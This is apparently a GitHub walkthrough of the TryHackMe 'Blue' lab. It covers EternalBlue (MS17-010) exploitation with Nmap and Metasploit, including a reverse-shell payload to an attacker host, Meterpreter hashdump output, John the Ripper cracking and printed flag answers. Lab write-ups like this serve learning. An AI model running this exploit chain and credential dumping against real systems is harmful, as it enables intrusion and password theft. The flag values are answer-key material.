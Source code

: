 # Blue-THM-Walkthrough

This is my first documented CTF walkthrough, focused on the TryHackMe machine **Blue**, which explores the famous **EternalBlue** vulnerability (MS17-010).

I am currently progressing through the TryHackMe learning path, and this machine provided a solid hands-on experience. Completing Blue allowed me to apply enumeration techniques, exploit development, privilege escalation, and post-exploitation activities in a controlled environment.

This document presents each step I followed, explaining the methods, tools, and decisions throughout the exploitation process.

---

## Task 1 — Scanning the Machine

The first step was to perform an initial enumeration of the target machine using Nmap. I opted for a quick scan of the most common ports to identify accessible services.

**Command used:**

```bash
nmap -vv -F 10.10.40.249
```

**Results:**

```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
```

The presence of port 445 indicated that SMB was available on the machine. After researching, I discovered that SMB services on this port have been associated with the EternalBlue vulnerability (MS17-010).

---

## Task 2 — Exploiting EternalBlue

After confirming that SMB was available, I proceeded to exploit the machine using Metasploit and the EternalBlue module.

**Commands used:**

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.40.249
set LHOST 10.9.2.36
set payload windows/x64/shell/reverse_tcp
run
```

After executing the exploit, I gained shell access to the target system.

---

## Task 3 — Upgrading Shell and Privilege Escalation

Upon gaining the initial shell, I upgraded it to a Meterpreter session to have better control and post-exploitation options.

**Commands used:**

```bash
sessions -u 1
sessions-i 2
```

After upgrading, I verified the current privileges:

```bash
getuid
```

The session confirmed that I was running as:

```
NT AUTHORITY\SYSTEM
```

I also listed running processes:

```bash
ps
```

And migrated into a stable SYSTEM process to avoid losing the session:

```bash
migrate <PID>
```

---

## Task 4 — Dumping and Cracking Password Hashes

With SYSTEM privileges, I dumped the local password hashes using Meterpreter.

**Command used:**

```bash
hashdump
```

**Results:**

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

I identified a non-default user account: **Jon**.

I then proceeded to crack Jon's password hash using **John the Ripper** with the **rockyou.txt** wordlist.

**Commands used:**

```bash
echo 'jon:ffb43f0de35be4d9917ac0cc8ad57f8d' > jon.hash
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jon.hash
john --show jon.hash
```

## Task 5 — Locating the Three Flags

The final step was to locate three flags hidden within the system.

### Flag 1 — Root of C:\

Navigated to the root directory and found the first flag.

```bash
cd C:\
dir
type flag1.txt
```

**Flag 1 Content:**

```
flag{access_the_machine}
```

---

### Flag 2 — Password Storage Location (SAM)

Navigated to the SAM database location inside Windows and retrieved the second flag.

```bash
cd C:\Windows\System32\config
dir
type flag2.txt
```

**Flag 2 Content:**

```
flag{sam_database_elevated_access}
```

---

### Flag 3 — Administrator's Documents

Navigated to the user's personal documents to find the third flag.

```bash
cd C:\Users\Jon\Documents
dir
type flag3.txt
```

**Flag 3 Content:**

```
flag{<your_flag_here>}
```

---

## Final Thoughts

This machine offered a complete exploitation chain: from scanning and enumeration to full system compromise and post-exploitation activities.

Completing Blue helped reinforce the importance of methodical enumeration, understanding vulnerabilities, and maintaining stability during post-exploitation phases.

This was a solid exercise in real-world attack techniques against misconfigured and vulnerable systems.
